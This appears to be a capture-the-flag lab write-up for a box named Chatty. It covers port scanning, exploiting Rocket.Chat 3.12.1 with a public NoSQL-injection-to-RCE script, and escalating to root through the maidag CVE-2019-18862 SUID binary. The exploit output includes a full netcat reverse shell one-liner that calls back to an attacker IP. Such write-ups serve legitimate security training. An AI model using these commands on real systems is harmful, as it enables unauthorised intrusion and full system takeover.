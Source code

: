 # Chatty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 1000 192.168.183.164
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:32 +08
Warning: 192.168.183.164 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.164
Host is up (0.17s latency).
Not shown: 65500 closed tcp ports (conn-refused), 33 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Rocket Chat -> Admin Takeover

Port 3000 hosted an instance of Rocket Chat:

<figure><img src="../../../.gitbook/assets/image (722).png" alt=""><figcaption></figcaption></figure>

We can enumerate the version by visiting the `/api/info` page:

```
$ curl http://192.168.183.164:3000/api/info | jq 
{
  "version": "3.12.1",
  "success": true
}
```

This version of Rocket Chat is vulnerable to a NoSQL Injection exploit:

```
$ searchsploit rocket chat 3.12
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Rocket.Chat 3.12.1 - NoSQL Injection (Unauthenticated)     | linux/webapps/49960.py
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticat | linux/webapps/50108.py
----------------------------------------------------------- ---------------------------------
```

I registered a new account and found the administrator profile of this instance:

<figure><img src="../../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>

We can use `50108.py` to exploit this. Since we created our own low priv user, we can comment the part of the script that resets the low priv user's password:

<figure><img src="../../../.gitbook/assets/image (1867).png" alt=""><figcaption></figcaption></figure>

Then, we also need to change the `password` of the low priv user to the one that we used.&#x20;

<figure><img src="../../../.gitbook/assets/image (3007).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

After running the exploit, we would be given RCE access, and getting a reverse shell is pretty simple:

```
$ python3 50108.py -u 'test@website.com' -a 'admin@chatty.offsec' -t 'http://192.168.183.164:3000'
[+] Succesfully authenticated as test@website.com
Got the code for 2fa: GJLFCKKOOBCVOYSCOJYHCUZ7NAUSUMKYEZAF43RVJ5KC62JYGVYA
[+] Resetting admin@chatty.offsec password
[+] Password Reset Email Sent
[+] Succesfully authenticated as test@website.com
Got the reset token: GsL4Y53r7id414kW7PYJsZVO5YkZkkz4eCvPOrybMkl
[+] Admin password changed !
CMD:> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.184 21 >/tmp/f
[+] Succesfully authenticated as administrator
{"success":false}
```

<figure><img src="../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary -> MaiDag CVE

I searched for SUID binaries within the system, and found one that stood out:

```
rocketchat@chatty:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/local/sbin/maidag
```

I didn't recognise `maidag`, and so enumerated it first.&#x20;

```
rocketchat@chatty:~$ /usr/local/sbin/maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Googling the binary and its version returns a Local Privilege Escalation exploit:

{% embed url="https://www.exploit-db.com/exploits/47703" %}

There are online exploits on Github to make this process as easy as possible:

{% embed url="https://github.com/bcoles/local-exploits/tree/master/CVE-2019-18862" %}

I used `exploit.ldpreload.sh` and ran it on the machine. This would spawn a binary `sh` within `/var/tmp` that would give us a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

Rooted!
